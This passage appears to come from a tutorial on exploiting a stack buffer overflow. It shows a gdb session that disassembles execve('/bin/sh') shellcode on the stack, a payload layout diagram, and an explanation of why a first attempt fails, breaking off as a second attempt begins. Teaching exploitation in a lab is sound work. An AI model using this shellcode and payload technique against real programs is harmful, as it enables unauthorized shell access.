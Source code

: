 At this point, we are right after the call, so we can take a look around
and we should see our shell code at the address `ebp-0x2c` and the
return address.

``` example
(gdb) x/x $ebp+0x4
0xbffff62c: 0xbffff5fc
(gdb) x/16i 0xbffff5fc
   0xbffff5fc:  jmp    0xbffff615
   0xbffff5fe:  pop    esi
   0xbffff5ff:  xor    eax,eax
   0xbffff601:  push   eax
   0xbffff602:  push   esi
   0xbffff603:  xor    edx,edx
   0xbffff605:  mov    ecx,esp
   0xbffff607:  mov    ebx,esi
   0xbffff609:  mov    al,0xb
   0xbffff60b:  int    0x80
   0xbffff60d:  xor    ebx,ebx
   0xbffff60f:  xor    eax,eax
   0xbffff611:  mov    al,0x1
   0xbffff613:  int    0x80
   0xbffff615:  call   0xbffff5fe
   0xbffff61a:  das    
(gdb) p $ebp-0x2c
$2 = (void *) 0xbffff5fc
```

Everything loks good so far. There is the shell code and in the right
place. Looking closer, we should expect at 0xbfffff61a to be the string
"/bin/sh" as this is jmp-callback. Let's take a look:

``` example
(gdb) x/s 0xbffff61a
0xbffff61a: "/bin/sh", 'A' <repeats 11 times>, "\374\365\377\277"
```

Woops! We see our "/bin/sh" string but we also see a sh\*ton of A's
following. That is to be expected given the way we set up our exploit:

``` example
                   .-------------------------.
                   |                         |
                   v                         |
   ./vulnerable 5 <shell-code><padding><address-of-buf>
```

The padding occurs after our shell code, and now we are toast. We can't
NULL terminate our shell-code because that means we won't pad out to the
return address. We need to do something different.

## Failed Attempt 2

This time, we'll change strategies a bit. Instead of jumping backwards,
let's jump forward. Here's what I propose:
